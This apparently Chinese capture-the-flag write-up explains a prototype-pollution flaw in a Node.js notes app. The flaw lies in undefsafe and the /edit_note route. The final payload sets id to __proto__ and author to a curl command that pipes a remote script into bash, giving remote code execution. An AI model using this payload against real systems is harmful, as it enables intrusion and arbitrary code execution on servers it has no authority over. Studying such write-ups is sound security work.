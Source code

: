 我们发现在/edit_note下可以传递三个参数，id，author和enote

```

app.route('/edit_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to edit a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        let author = req.body.author;
        let enote = req.body.raw;
        if (id && author && enote) {
            notes.edit_note(id, author, enote);
            res.render('mess', {message: "edit note sucess"});
        } else {
            res.render('mess', {message: "edit note failed"});
        }
    })

```

传入后会直接写入当前的note_list

```
class Notes {
    constructor() {
        this.owner = "whoknows";
        this.num = 0;
        this.note_list = {};
    }

    write_note(author, raw_note) {
        this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
    }

    get_note(id) {
        var r = {}
        undefsafe(r, id, undefsafe(this.note_list, id));
        return r;
    }

    edit_note(id, author, raw) {
        undefsafe(this.note_list, id + '.author', author);
        undefsafe(this.note_list, id + '.raw_note', raw);
    }

```

接受用户传参并使用，可以利用这点命令执行
playload:`

```bash
id=__proto__&author=curl 靶机名/1.txt|bash&raw=123
```
